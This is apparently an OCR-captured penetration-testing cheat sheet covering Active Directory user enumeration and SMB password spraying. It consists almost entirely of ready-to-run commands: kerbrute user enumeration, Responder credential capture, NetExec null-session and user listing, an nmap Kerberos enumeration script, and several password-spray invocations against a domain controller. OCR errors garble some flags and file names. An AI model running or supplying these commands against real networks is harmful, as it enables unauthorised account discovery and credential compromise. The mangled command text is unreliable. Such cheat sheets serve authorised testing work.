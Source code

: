 ## Enumeration

While capturing relays(If able to), enumerate with more NMap Scans. Get versioning on other services running.

### Enumerate Users

* [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt | grep "VALID USERNAME" | awk '{print $7}' > valid_users.txt
```

* Responder - Have `SMB` and `HTTP` turned on in the config before running this.

```
sudo python3 /usr/share/responder/Responder.py -I eth0
```

* NetExec

```
nxc smb targets.txt -u "" -p "" --pass-pol
```

```
nxc smb dc-IP --users
```

* NMap

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN',userdb=users.txt" DC-IP
```

### Password Spray

* [SMBSpray](https://github.com/absolomb/smbspray)

```
git clone https://github.com/absolomb/smbspray.git && cd smbspray
python3 smbspray.py -u users.txt -p passwords.txt -ip DC-IP
```

* NetExec

```
nxc smb IP -u users.txt -p 'Password123!' --continue-on-success
nxc smb IP -u users.txt -p passwords. txt --continue-on-success
nxc smb IP -u userl user2 user3 -p Summer18
nxc smb IP -u userl -p passwordl password2 password3
nxc smb IP -u user.txt -p user.txt —no-bruteforce --continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success -d DELAY-#-IN-MINUTES
```
